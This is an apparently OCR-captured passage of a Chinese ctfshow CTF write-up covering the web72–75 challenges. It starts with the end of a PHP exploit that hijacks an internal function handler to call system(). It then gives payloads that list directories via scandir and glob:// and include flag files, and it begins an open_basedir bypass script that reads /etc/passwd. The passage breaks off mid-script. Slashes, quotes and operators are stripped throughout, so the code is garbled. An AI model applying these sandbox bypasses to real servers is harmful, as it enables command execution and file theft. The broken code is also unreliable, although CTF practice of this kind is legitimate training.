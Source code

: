     # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
    
    ($helper-b)($cmd);
    exit();
}
exit();
httpswww.m00nback.xyz20200217ctfshow%E9%83%A8%E5%88%86%E9%A2%98%E7%9B%AEwriteup

httpswww.jb51.netarticle141767.htm

但是我打不出来。。。。。

web73
​
Warning error_reporting() has been disabled for security reasons in varwwwhtmlindex.php on line 14
​
Warning ini_set() has been disabled for security reasons in varwwwhtmlindex.php on line 15
​
Warning highlight_file() has been disabled for security reasons in varwwwhtmlindex.php on line 24
你要上天吗？
c=var_export(scandir(''));die();得到

array ( 0 = '.', 1 = '..', 2 = '.dockerenv', 3 = 'bin', 4 = 'dev', 5 = 'etc', 6 = 'flagc.txt', 7 = 'home', 8 = 'lib', 9 = 'media', 10 = 'mnt', 11 = 'opt', 12 = 'proc', 13 = 'root', 14 = 'run', 15 = 'sbin', 16 = 'srv', 17 = 'sys', 18 = 'tmp', 19 = 'usr', 20 = 'var', )
payload

c=include('flagc.txt');die();
web74~glob协议
c=var_export(scandir(''));die();结果输出NULL.

glob 协议读取：

c=$it=newDirectoryIterator(glob);foreach($itas$f) {echo$f-getFilename().n;}die();
得到flag

c=include('flagx.txt');die();
web75~不太行
glob协议读文件名flag36.txt，

c=$it = new DirectoryIterator(glob);foreach($it as $f) {echo$f-getFilename().n;}die();
接下来就是懵逼时刻了。

p牛的bypass open_basedir脚本：

php
header('content-type textplain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf(open_basedir %snphp_version %sn, ini_get('open_basedir'), phpversion());
printf(disable_functions %sn, ini_get('disable_functions'));
$file = str_replace('', '', isset($_REQUEST['file'])  $_REQUEST['file']  'etcpasswd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i  count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i  0; $i--) { 